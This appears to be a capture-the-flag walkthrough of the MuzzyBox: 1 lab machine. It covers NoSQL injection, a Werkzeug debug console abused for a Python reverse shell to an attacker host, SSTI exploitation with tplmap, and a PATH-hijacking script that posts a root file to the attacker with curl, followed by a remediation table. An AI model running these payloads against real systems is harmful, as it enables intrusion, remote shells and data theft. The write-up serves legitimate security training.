

# MuzzyBox: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.6 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | Capture 3 CTF flags (multi-challenge box) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/muzzybox-1-vulnhub-walkthrough/) |

## Attack Summary

MuzzyBox: 1 is a multi-challenge CTF with three independent flags. Flag 1 is obtained via NoSQL injection against a library application on port 3000. Flag 2 abuses a Werkzeug debug console PIN (obtained from Flag 1) to get a reverse shell. Flag 3 chains Server-Side Template Injection (SSTI) on port 15000 to obtain SSH credentials, then PATH hijacking to extract the root-level flag.

## Methodology

1. Network and port enumeration
2. NoSQL injection bypass (Challenge 1)
3. Werkzeug debugger PIN abuse and Python reverse shell (Challenge 2)
4. SSTI exploitation via tplmap (Challenge 3)
5. SSH credential reuse
6. PATH hijacking for privilege escalation

---

## Step 1: Reconnaissance

```bash
netdiscover
nmap -A $TARGET
```



**Open ports:**
- 22/tcp — SSH
- 80/tcp — HTTP (index page with challenge descriptions)
- 3000/tcp — HTTP (Library app — Challenge 1)
- 8989/tcp — Werkzeug debug console (Challenge 2)
- 9633/tcp — HTTP (ID card template download)
- 15000/tcp — HTTP (Flask SSTI app — Challenge 3)

**Port 80** serves `index.txt` with descriptions of the three challenges and the hint that the library app uses "an alternative of SQL DB."

---

## Step 2: Challenge 1 — NoSQL Injection (Port 3000)

The library application authenticates users via a NoSQL (MongoDB-style) query. The ID card template is downloaded from port 9633 and edited to inject a NoSQL operator:

```bash
# Download the ID card template
wget http://$TARGET:9633/idcard.png

# Edit the card:
#   Name:         Raj {$ne: 1}
#   Position:     Principal
#   Access Level: Authorized
# Then upload the edited card to the library app
```

The `{$ne: 1}` operator forces the query to always evaluate to true, bypassing authentication.


**Flag 1:** `N$ctF{D388uG_P!N_!$_123-456-789}`

The flag value contains the Werkzeug debug PIN: `123-456-789`.

---

## Step 3: Challenge 2 — Werkzeug Debug Console (Port 8989)

The Werkzeug error page on port 8989 exposes an interactive Python console protected by the PIN recovered from Flag 1.

```bash
# Start a netcat listener
nc -lvnp 5555
```

Enter the PIN in the browser and paste the following Python reverse shell into the console:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$LHOST",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

On the reverse shell:

```bash
ls
cd flag
cat ctf2.py
```


**Flag 2:** `N$cTF{R34D_F!L3_/home/webssti/noflag.txt}`

The flag points to a file at `/home/webssti/noflag.txt` (needed for Challenge 3).

---

## Step 4: Challenge 3 — SSTI on Port 15000

### 4a. Confirm SSTI

```bash
curl "http://$TARGET:15000/page?name={{7*7}}"
# Response should contain 49
```

### 4b. Exploit with tplmap

```bash
git clone https://github.com/epinna/tplmap.git
cd tplmap
python tplmap.py -u "http://$TARGET:15000/page?name=*" --os-shell
```


```bash
id
pwd
cat /home/webssti/ssti/no_flag.txt
# Note the SSH username and password
```

### 4c. SSH Access

```bash
ssh <user>@$TARGET
# Use credentials from no_flag.txt
```

---

## Step 5: Privilege Escalation — PATH Hijacking

```bash
sudo -l
echo $PATH
ls /usr/local/sbin
```

The root process executes `ls` via a cron job or sudo rule. `/usr/local/sbin` is writable and appears early in `$PATH`.

Create a malicious `ls` binary:

```bash
cat > /usr/local/sbin/ls << 'EOF'
#!/bin/bash
cat /root/flag.txt | curl -X POST http://$LHOST:1234 -d @-
EOF
chmod +x /usr/local/sbin/ls
```

Start a listener to receive the exfiltrated flag:

```bash
nc -lvnp 1234
```

When root's process executes `ls`, the malicious script runs and POSTs the flag to the attacker.


**Flag 3:** `N$CtF{8!NG000!!!__Y0U_D!D_!T_80!!!}`

---

## Lessons Learned

1. NoSQL operators (`$ne`, `$gt`, `$regex`) can bypass authentication just as SQL injection does — input sanitization must cover both SQL and NoSQL backends.
2. The Werkzeug debugger must **never** be exposed in production; PIN-based protection is insufficient.
3. SSTI sinks that reach `eval`/`exec` allow full OS command execution — template engines must sandbox user input.
4. `$PATH` order and writable directories in a privileged process's environment create a trivial privilege escalation vector.

## Remediation

| Vulnerability | Fix |
|---|---|
| NoSQL Injection | Sanitize and type-check all user-supplied fields before constructing database queries |
| Werkzeug Debug Console | Disable `debug=True` in production; never expose interactive consoles publicly |
| Server-Side Template Injection | Use a sandboxed template engine; never pass raw user input into template rendering calls |
| PATH Hijacking | Harden `$PATH` in privileged process environments; remove world-writable entries |
